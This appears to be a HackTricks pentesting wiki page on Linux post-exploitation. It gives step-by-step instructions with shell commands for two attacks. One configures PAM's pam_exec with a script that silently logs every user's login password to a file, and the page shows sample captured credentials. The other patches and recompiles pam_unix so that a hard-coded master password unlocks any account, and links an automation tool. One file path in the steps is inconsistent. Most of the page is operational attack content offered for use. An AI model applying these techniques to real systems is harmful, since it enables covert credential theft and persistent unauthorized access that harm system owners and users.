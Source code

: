 # Linux Post-Exploitation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

First, we create a bash script that will be invoked whenever a new authentication occurs.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```

The variables are PAM specific and will become available via the `pam_exec.so` module.

Here is the meaning of the variables:

* **$PAM\_USER:** The username that was entered.
* **$PAM\_RHOST:** The remote host (typically the IP Address)
* **$(cat -):** This reads `stdin`, and will contain the password that the script grabs
* The results are piped into a log file at `/var/log/toomanysecrets.log`

To **prevent all users from reading** the file consider pre-creating it and running `chmod`, e.g.:

```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```

Next, the PAM configuration file needs to be updated the `pam_exec` module will be used to invoke the script.

There are various config files located in `/etc/pam.d/`, and we pick `common-auth`.

```
sudo nano /etc/pam.d/common-auth
```

On the very bottom of the file, add the following authentication module:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

The options have the following meaning:

* **optional:** Authenticaiton shouldn’t fail if there is an error (it’s not a required step)
* **pam\_exec.so:** This is the living off the land PAM module that can invoke arbitrary scripts
* **expose\_authtok:** This is the trick that allows to read the password via `stdin`
* **quiet:** Don’t show any errors to the user (if something doesn’t work)
* The last argument is the shell script that was created previously

![](<../../.gitbook/assets/image (375).png>)

Finally, make the file executable:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

Now, let’s try this out and ssh from another machine, or login locally.

And then look at the log file:

```
$ sudo cat /var/log/toomanysecrets.log
 Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
 Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
 Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```

### Backdooring PAM

Let go to the sources of PAM (depends on your distro, take the same version number as yours..) and look around line numbers 170/180 in the pam\_unix\_auth.c file:

```
vi modules/pam_unix/pam_unix_auth.c
```

![](<../../.gitbook/assets/image (651).png>)

Let’s change this by:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

This will allow any user using the **password "0xMitsurugi"** to log in.

Recompile the `pam_unix_auth.c`, end replace the pam\_unix.so file:

```bash
make
sudo cp \  
  /home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \  
  /lib/x86_64-linux-gnu/security/  
```

{% hint style="info" %}
You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

## References

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
